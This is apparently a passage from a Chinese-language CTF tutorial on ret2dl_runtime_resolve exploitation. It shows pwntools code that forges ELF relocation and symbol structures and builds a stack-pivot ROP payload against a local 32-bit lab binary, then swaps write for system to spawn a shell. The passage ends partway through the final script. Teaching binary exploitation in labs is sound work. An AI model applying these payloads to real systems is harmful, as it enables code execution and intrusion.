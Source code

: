 ```python

fake_write_Elf32_Sym_addr=new_stack_esp+4*9
align=0x10-((fake_write_Elf32_Sym_addr-real_dynsym_start_addr)&0xf) #进行对齐
fake_write_Elf32_Sym_addr=fake_write_Elf32_Sym_addr+align           #重新计算fake_Elf32_Sym地址

fake_r_offset=elf.got['write']   
dynsym_index=(fake_write_Elf32_Sym_addr-real_dynsym_start_addr)/0x10
fake_r_info=(dynsym_index<<0x8)|0x7                      #根据fake_Elf32_Sym反推r_info
fake_write_Elf32_Rel=p32(fake_r_offset)+p32(fake_r_info) #伪造write的Elf32_Rel结构体
#########################################################################################
fake_write_string='write\x00'
fake_write_string_addr=new_stack_esp+4*9+align+0x4*4
read_strtab_start_addr=elf.get_section_by_name('.dynstr').header.sh_addr
fake_st_name=fake_write_string_addr-read_strtab_start_addr
fake_st_valve=0
fake_st_size=0 
fake_st_info=0x12
fake_st_other=0
fake_st_shndx=0
fake_write_Elf32_Sym=p32(fake_st_name)+p32(fake_st_valve)+p32(fake_st_size)+p8(fake_st_info)+p8(fake_st_other)+p16(fake_st_shndx)
#########################################################################################
payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(fake_reloc_arg)+p32(0xdeadbeef)
payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string))  #len("/bin/sh\x00")==0x10
payload2+=fake_write_Elf32_Rel
payload2+='b'*align
payload2+=fake_write_Elf32_Sym   
payload2+=fake_write_string    #new

payload2+='c'*(80-len(payload2))
payload2+=string
payload2+='d'*(100-len(payload2))

#gdb.attach(p,"dir /home/ubuntu/Desktop/malloc/glibc/glibc-2.27/elf/")
p.sendline(payload2)
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1628050763614-92c39232-33b2-4c5d-9938-96e104a7b548.png)

#### Part5
第5步很简单，将write改为system，再调整一下参数即可拿到shell：

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_partial_relro_32')
elf=ELF('./main_partial_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804864b
leave_retn_gadget=0x08048465 #mov esp,ebp;pop ebp
three_pop_gadget=0x08048649

new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x100)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
```